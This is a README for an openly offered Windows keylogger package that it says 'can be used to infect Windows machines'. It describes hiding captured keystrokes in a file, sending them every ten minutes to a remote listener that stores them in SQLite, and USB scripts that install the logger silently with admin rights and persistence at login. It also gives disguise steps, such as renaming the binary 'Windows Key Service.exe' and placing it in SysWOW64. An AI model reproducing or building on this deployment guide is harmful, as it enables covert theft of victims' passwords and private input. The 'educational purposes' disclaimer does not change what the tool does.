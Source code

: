 # Key-Logger
A complete key logger package that can be used to infect Windows machines. Comes with capabilities to push key strokes to a remote server. Remote server code included. Includes scripts to silently install/uninstall the key logger from a USB stick.

## DISCLAIMER
Keylogging has both legitimate and illegitimate use cases. This project was meant to be a fun little side project for educational purposes only. I am not liable for any actions done by this program. Use at your own risk.

## CONTENTS

### [klog](klog/)
The key logger to be installed on the target machine.

- Key strokes are stored in a hidden file called '**k**' in the same directory as the executable.
- The contents of '**k**' are pushed to the remote server on port **25666** every **10** minutes.
- The remote server address, port, and the push period are configurable via command line arguments. Otherwise, the defaults are used.
- _The code is a heavily modified version of Giacomo Lawrance's [KeyLogger](https://github.com/GiacomoLaw/Keylogger). Kudos!_

#### Usage
`klog.exe [ADDRESS] [PORT] [PUSH_PERIOD_MS]`

### [klog-listener](klog-listener/)
A Windows service to listen and store key strokes from multiple key loggers.

- Key logs are stored in a SQLite DB called __KeyLog.db__. Contents can be viewed using a [SQLite browser](https://sqlitebrowser.org/)

### [usb](usb/)
Scripts to silently install, uninstall, and configure the key logger.

- [infect.cmd](usb/infect.cmd): Run this script from the USB stick to install the key logger.
  - Executes `install_uninstall.ps1` with necessary admin privileges.
- [install_uninstall.ps1](usb/install_uninstall.ps1)
  - If not installed, this script will install and configure the key logger.
  - If already installed, this script will remove all installed components.
  - This script will set up the key logger to always run with admin privileges and always execute on user log in.

#### USB Contents
Scripts to be executed from a USB stick with drive letter `Z:\`. `klog.exe` should be renamed to `Windows Key Service.exe`.

The key logger will get installed into the __C:\Windows\SysWOW64__ directory and begin executing immediately as a background process and every time the user logs in.

The USB drive should be structured as follows:
- Z:\
  - infect.cmd
  - install_uninstall.ps1
  - Windows Key Service.exe

## CONTRIBUTIONS
Any bug fixes, enhancements, and code improvements are welcomed! 

## LICENSE
Distributed under the MIT license. See [LICENSE](LICENSE.md) for more information.
